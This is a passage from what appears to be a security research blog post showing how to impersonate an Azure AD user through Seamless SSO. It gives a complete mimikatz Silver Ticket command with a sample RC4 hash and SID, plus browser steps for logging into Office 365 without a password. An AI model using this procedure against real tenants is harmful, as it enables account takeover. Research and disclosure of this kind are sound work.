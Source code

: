   <p>
    Both of&nbsp;these commands need <em>Domain Admins</em> permissions.</li> 
    
    <li>
      Name of&nbsp;the AD domain, e.g.&nbsp;<em>contoso.local</em>.
    </li>
    <li style="text-align: justify;">
      AAD logon name of&nbsp;the user we want to&nbsp;impersonate, e.g.&nbsp;elrond@contoso.com. This is&nbsp;typically either his <em>userPrincipalName</em> or&nbsp;<em>mail</em> attribute from&nbsp;the&nbsp;on-prem AD.
    </li>
    <li>
      SID of&nbsp;the user we want to&nbsp;impersonate, e.g.&nbsp;<em>S-1-5-21-2121516926-2695913149-3163778339-1234</em>.
    </li></ol> 
    
    <p style="text-align: justify;">
      Having this information we can now&nbsp;create and&nbsp;use the&nbsp;Silver Ticket on any Windows computer connected to&nbsp;the internet. It does not even&nbsp;matter whether&nbsp;it is&nbsp;joined to&nbsp;a domain or&nbsp;a&nbsp;workgroup:
    </p>
    
    <ol>
      <li>
        Create the&nbsp;Silver Ticket and&nbsp;inject it into Kerberos cache: <pre class="nums:false lang:sh decode:true ">mimikatz.exe "kerberos::golden /user:elrond
/sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
/domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
/target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit</pre>
      </li>
      
      <li>
        Launch <em>Mozilla Firefox</em>.
      </li>
      <li style="text-align: justify;">
        Go to&nbsp;<a href="about:config">about:config</a> and&nbsp;set the&nbsp;<a href="https://developer.mozilla.org/en-US/docs/Mozilla/Integrated_authentication">network.negotiate-auth.trusted-uris</a> preference to&nbsp;<a href="https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically">value</a> &#8220;https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com&#8221;.
      </li>
      <li style="text-align: justify;">
        Navigate to&nbsp;any web application that&nbsp;is&nbsp;integrated with our AAD domain. We will use <a href="https://portal.office.com">Office 365</a>, which&nbsp;is&nbsp;the most commonly used one.
      </li>
      <li style="text-align: justify;">
        Once&nbsp;at the&nbsp;logon screen, fill in&nbsp;the&nbsp;user name, while&nbsp;leaving the&nbsp;password field empty. Then press TAB or&nbsp;ENTER.<br /> <img class="aligncenter size-full wp-image-8681" src="https://www.dsinternals.com/wp-content/uploads/aad_sso1.png" alt="" width="296" height="289" />
      </li>
      <li>
        That&#8217;s it, we&#8217;re in!<a href="https://www.dsinternals.com/wp-content/uploads/aad_sso2.png"><img class="aligncenter wp-image-8691 size-medium" src="https://www.dsinternals.com/wp-content/uploads/aad_sso2-300x178.png" width="300" height="178" srcset="https://www.dsinternals.com/wp-content/uploads/aad_sso2-300x178.png 300w, https://www.dsinternals.com/wp-content/uploads/aad_sso2.png 553w" sizes="(max-width: 300px) 100vw, 300px" /></a>
      </li>
      <li>
        To&nbsp;log in&nbsp;as another user, run the&nbsp;command below and&nbsp;repeat steps 1-6. <pre class="nums:false lang:sh decode:true">klist purge</pre>
      </li>
    </ol>
    